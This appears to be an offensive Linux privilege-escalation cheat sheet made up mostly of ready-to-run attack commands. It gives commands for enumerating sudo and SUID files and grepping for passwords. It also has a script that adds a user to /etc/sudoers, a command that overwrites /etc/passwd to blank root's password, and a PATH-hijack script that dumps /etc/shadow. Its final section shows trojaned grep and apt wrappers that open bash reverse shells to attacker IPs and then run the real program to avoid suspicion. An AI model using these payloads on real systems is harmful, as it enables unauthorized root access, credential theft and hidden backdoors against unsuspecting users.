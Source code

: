 # GTFO Bins:
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
```
https://gtfobins.github.io/
```

# Commands:
check to see what sudo privledges the user has
```
sudo -l
cat /etc/sudoers
```

# other Super Users?:
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}'
```

# lists available exploits Linux kernel in kali Linux
```
searchsploit Linux Kernel 2.6.24 
```


# Grep hardcoded passwords:
### Use grep to look for user in filename
```
grep -i user [filename]
```
### Use grep to look for pass in filename
```
grep -i pass [filename]
```
### Use grep to look for password in filename
```
grep -C 5 "password" [filename]
```
### find php file and check them for the variable $password
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```



# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

# Use Python to run script in zip file:
```
mkdir test
echo 'print("Hello World!!") > test/__main__.py
zip -j test.zip test/*
python test.zip
```



## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

# if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
Check history 
```
history
```
Change the name of the file you are creating to be a program they use often, especially if they use sudo with it. change the script to use the shell of your choice. 

Find the most common program used with sudo 
```
history | grep sudo | awk '{print $2, $3}' | sort | uniq -c | awk '{print $3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'
```
assuming that program is grep
```
nano grep 
```
Reverse shell backdoor
```
#!/bin/dash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
# open original program to prevent suspicion 
/usr/bin/grep
```
## Apt Example:
```
#!/bin/bash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1 &

# 0<&196;exec 196<>/dev/tcp/192.168.1.44/4443; sh <&196 >&196 2>&196 &
#/bin/bash -l > /dev/tcp/192.168.1.44/4442 0<&1 2>&1 &

# open original program to prevent suspicion 
/usr/bin/apt $1 $2 $3 $4 $5 $6 $7 $8 $9
```

make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
OR
export PATH=$PWD:$PATH
```
wait for the user to run the program

